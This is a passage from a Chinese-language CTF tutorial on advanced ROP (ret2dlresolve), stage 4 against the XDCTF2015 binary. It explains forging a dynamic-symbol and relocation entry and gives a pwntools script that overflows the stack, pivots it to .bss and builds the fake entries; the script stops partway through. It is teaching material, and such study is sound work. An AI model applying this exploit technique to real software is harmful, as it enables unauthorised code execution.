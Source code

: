 #### STAGE4

stage3 中，我们控制了重定位表项，但是重定位表项的内容与 write 原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。根据 write 的重定位表项的 r_info=0x607 可以知道，write 对应的符号在符号表的下标为 0x607>>8=0x6。因此，write 对应的符号地址为 0x8048238。

![Alt](img/wiki-AdvancedRop7.png)

小端序，每个符号占用16个字节

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  stack_size = 0x800
  base_stage = bss_addr + stack_size
  rop.raw('a' * offset)
  rop.read(0, base_stage, 100)
  rop.migrate(base_stage)
  r.sendline(rop.chain())

  rop = ROP('./main')
  sh = "/bin/sh"

  plt0 = elf.get_section_by_name('.plt').header.sh_addr
  rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
  dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
  dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

  ### making fake write symbol
  fake_sym_addr = base_stage + 32
  align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                  )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
  fake_sym_addr = fake_sym_addr + align
  index_dynsym = (
      fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
  fake_write_sym = flat([0x4c, 0, 0, 0x12])

  ### making fake write relocation

  ## making base_stage+24 ---> fake reloc
  index_offset = base_stage + 24 - rel_plt
  write_got = elf.got['write']
  r_info = (index_dynsym << 8) | 0x7
  fake_write_reloc = flat([write_got, r_info])

  rop.raw(plt0)
  rop.raw(index_offset)
```